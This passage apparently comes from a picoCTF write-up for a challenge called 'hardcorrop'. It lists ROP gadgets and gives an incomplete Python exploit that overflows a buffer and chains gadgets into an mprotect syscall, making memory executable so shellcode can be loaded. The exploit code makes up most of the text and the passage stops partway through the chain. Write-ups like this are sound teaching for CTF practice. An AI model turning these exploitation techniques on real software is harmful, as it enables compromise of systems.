```bash
bas@tritonal:~/tmp/picoctf/hardcorrop$ grep "int 0x80" *
0347-gadgets.txt:RET: 0x0000d64: int 0x80; lahf; ret; 
```

It found an `int 0x80` gadget! Luckily, the opcode `lahf` is harmless: it just load the FLAGS into `ah`. No big deal! With this useable gadget, a ROP chain could be built that calls `mprotect` to set the region at `0xf000000` to writeable. After this stage 1, a second stage would read the shellcode. First things first, let's find gadgets that allow us to control registers. The easiest would be a `pop r32; ret`. Luckily, these sequences are very likely to occur. I found everything I needed in the list of gadgets:

```
# RET: 0x000913f: pop eax; ret;
# RET: 0x0003c7e: pop ecx; ret;
# RET: 0x0002393: pop edx; ret;
# RET: 0x000964d: pop ebx; ret;
# RET: 0x0000d64: int 0x80; lahf; ret;
```

I wrote the following ROP chain:

```python
#!/usr/bin/python

import struct

BASE = 0xf000000
# RET: 0x000913f: pop eax; ret;
popeax = 0x000913f
# RET: 0x0003c7e: pop ecx; ret;
popecx = 0x0003c7e
# RET: 0x0002393: pop edx; ret;
popedx = 0x0002393
# RET: 0x000964d: pop ebx; ret;
popebx = 0x000964d
# RET: 0x0000569: pop edi; ret;
popedi = 0x0000569
# RET: 0x0000d64: int 0x80; lahf; ret;
int80h = 0x0000d64
# RET: 0x0001b11: int3; ret;
int03h = 0x0001b11

def p(x):
	return struct.pack("<L", x)
	
payload = ""

# seed value
payload += "0347\n"

# overflow buffer
payload += "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"

# syscall number 125 in eax (mprotect)
payload += p(BASE + popeax)
payload += p(125)

# pointer to memory region in ebx
payload += p(BASE + popebx)
payload += p(BASE)

# memory flags PROT_READ | PROT_WRITE | PROT_EXEC
payload += p(BASE + popedx)
payload += p(7)

```